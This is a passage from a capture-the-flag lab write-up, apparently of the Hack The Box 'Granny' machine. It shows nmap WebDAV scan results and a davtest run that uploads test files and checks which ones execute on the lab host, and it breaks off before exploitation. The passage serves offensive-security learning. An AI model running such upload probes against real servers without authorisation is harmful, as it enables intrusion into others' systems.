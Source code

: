 ```ruby
</html>
```

But with this I couldn't get anywhere, I knew I had a connection to the web but that was it.

## Exploiting

So I returned to the first nmap scan to this:

```ruby
 http-webdav-scan: 
	 Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
	 Server Date: Wed, 30 Aug 2023 07:28:16 GMT
	 Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
```

Seeing that there was this (http-webdav) I decided to run `davtest` to check what kind of files I could copy inside the victim machine.

```ruby
┌──(kali㉿kali)-[~/HTB/granny]
└─$ davtest -url http://10.10.10.15 
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.10.10.15
********************************************************
NOTE	Random string for this session: q8mdd1Gibua
********************************************************
 Creating directory
MKCOL		SUCCEED:		Created http://10.10.10.15/DavTestDir_q8mdd1Gibua
********************************************************
 Sending test files
PUT	php	SUCCEED:	http://10.10.10.15/DavTestDir_q8mdd1Gibua/davtest_q8mdd1Gibua.php
PUT	html	SUCCEED:	http://10.10.10.15/DavTestDir_q8mdd1Gibua/davtest_q8mdd1Gibua.html
PUT	cfm	SUCCEED:	http://10.10.10.15/DavTestDir_q8mdd1Gibua/davtest_q8mdd1Gibua.cfm
PUT	cgi	FAIL
PUT	jsp	SUCCEED:	http://10.10.10.15/DavTestDir_q8mdd1Gibua/davtest_q8mdd1Gibua.jsp
PUT	shtml	FAIL
PUT	pl	SUCCEED:	http://10.10.10.15/DavTestDir_q8mdd1Gibua/davtest_q8mdd1Gibua.pl
PUT	jhtml	SUCCEED:	http://10.10.10.15/DavTestDir_q8mdd1Gibua/davtest_q8mdd1Gibua.jhtml
PUT	aspx	FAIL
PUT	asp	FAIL
PUT	txt	SUCCEED:	http://10.10.10.15/DavTestDir_q8mdd1Gibua/davtest_q8mdd1Gibua.txt
********************************************************
 Checking for test file execution
EXEC	php	FAIL
EXEC	html	SUCCEED:	http://10.10.10.15/DavTestDir_q8mdd1Gibua/davtest_q8mdd1Gibua.html
EXEC	html	FAIL
EXEC	cfm	FAIL
EXEC	jsp	FAIL
EXEC	pl	FAIL
EXEC	jhtml	FAIL
EXEC	txt	SUCCEED:	http://10.10.10.15/DavTestDir_q8mdd1Gibua/davtest_q8mdd1Gibua.txt
EXEC	txt	FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_q8mdd1Gibua
PUT File: http://10.10.10.15/DavTestDir_q8mdd1Gibua/davtest_q8mdd1Gibua.php
PUT File: http://10.10.10.15/DavTestDir_q8mdd1Gibua/davtest_q8mdd1Gibua.html
PUT File: http://10.10.10.15/DavTestDir_q8mdd1Gibua/davtest_q8mdd1Gibua.cfm
PUT File: http://10.10.10.15/DavTestDir_q8mdd1Gibua/davtest_q8mdd1Gibua.jsp
PUT File: http://10.10.10.15/DavTestDir_q8mdd1Gibua/davtest_q8mdd1Gibua.pl
```